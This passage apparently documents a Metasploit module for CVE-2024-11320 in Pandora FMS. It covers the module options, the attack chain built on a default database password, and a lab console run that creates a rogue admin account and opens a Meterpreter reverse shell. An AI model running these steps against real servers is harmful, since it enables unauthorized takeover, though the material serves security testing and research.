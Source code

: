 ```msf
  ----         ---------------      --------  -----------
  DB_NAME      pandora              yes       Pandora database
  DB_PASSWORD  Pandor4!             yes       Pandora database admin password
  DB_PORT      3306                 yes       MySQL database port
  DB_USER      pandora              yes       Pandora database admin user
  PASSWORD     pandora              no        Pandora web admin password
  Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/usin
                                              g-metasploit.html
  RPORT        80                   yes       The target port (TCP)
  SSL          false                no        Negotiate SSL/TLS for outgoing connections
  TARGETURI    /pandora_console     yes       Path to the Pandora FMS application
  USERNAME     admin                no        Pandora web admin user
  VHOST                             no        HTTP server virtual host

Payload information:

Description:
  Pandora FMS is a monitoring solution that provides full observability for your organization's
  technology. This module exploits an command injection vulnerability in the LDAP authentication
  mechanism of Pandora FMS.
  You need have admin access at the Pandora FMS Web application in order to execute this RCE.
  This access can be achieved leveraging a default password vulnerability in Pandora FMS that
  allows an attacker to access the Pandora FMS MySQL database, create a new admin user and gain
  administrative access to the Pandora FMS Web application. This attack can be remotely executed
  over the WAN as long as the MySQL services are exposed to the outside world.
  This issue affects Community, Free and Enterprise editions: from v7.0NG.718 through <= v7.0NG.777.4

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-11320
  https://pandorafms.com/en/security/common-vulnerabilities-and-exposures/
  https://attackerkb.com/topics/CsDUaLijbT/cve-2024-11320

View the full module info with the info -d command.
```
### Pandora FMS v7.0NG.777 on Ubuntu 22.04 -  PHP Command target
Attack scenario: use the default database credentials (pandora:Pandor4!) to create an admin user in the application
to gain the privileges for the RCE.
```msf
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_11320) > set password xxx
password => xxx
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_11320) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_11320) > exploit
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Pandora FMS version v7.0NG.777
[*] Trying to log in with admin credentials admin:xxx at the Pandora FMS Web application.
[*] Logging in with admin credentials failed. Trying to connect to the Pandora MySQL server.
[*] Creating new admin user with credentials cnrjq:jeQsinXxfe for access at the Pandora FMS Web application.
[*] Trying to log in with new admin credentials cnrjq:jeQsinXxfe at the Pandora FMS Web application.
[*] Succesfully authenticated at the Pandora FMS Web application.
[*] Saving admin credentials at the msf database.
[*] Executing PHP Command for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 192.168.201.6
```